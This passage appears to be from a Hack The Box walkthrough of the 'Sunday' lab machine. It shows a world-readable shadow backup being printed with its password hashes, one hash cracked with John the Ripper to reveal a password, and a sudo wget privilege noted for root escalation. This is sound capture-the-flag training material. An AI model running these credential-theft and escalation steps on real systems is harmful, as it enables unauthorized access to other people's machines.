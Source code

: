 ```bash
drwxrwxrwt  4 root sys     384 2020-06-21 20:01 tmp
drwxr-xr-x 30 root sys      44 2018-04-15 19:46 usr
drwxr-xr-x 35 root sys      35 2018-04-15 20:26 var
```

Navigating there, I find a `shadow.backup` file which seems to be a copy of `/etc/shadow`.
It includes the `sammy` user's password hash.

```bash
sunny@sunday:~$ cd /backup
sunny@sunday:/backup$ ls -la
total 5
drwxr-xr-x  2 root root   4 2018-04-15 20:44 .
drwxr-xr-x 26 root root  27 2018-04-24 12:57 ..
-r-x--x--x  1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r--  1 root root 319 2018-04-15 20:44 shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

[john][] is able to make quick work of the hash.

```bash
➜ john shadow.txt --wordlist=/home/artis3n/Documents/SecLists/Passwords/Leaked-Databases/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)
1g 0:00:00:13 DONE (2020-06-21 17:21) 0.07462g/s 15589p/s 15589c/s 15589C/s dominique15..153462
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

I can now SSH onto the box as `sammy` with the password `cooldude!`.
`sammy` can run `wget` as root.

```bash
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```


[finger]: https://book.hacktricks.xyz/pentesting/pentesting-finger
[finger enum]: https://github.com/pentestmonkey/finger-user-enum
[gtfobins]: https://gtfobins.github.io/gtfobins/wget/#sudo
[hackthebox]: https://www.hackthebox.eu
[john]: https://github.com/magnumripper/JohnTheRipper
[patator]: https://github.com/lanjelot/patator
[finger enum results]: /assets/img/htb/sunday/finger-enum-results.png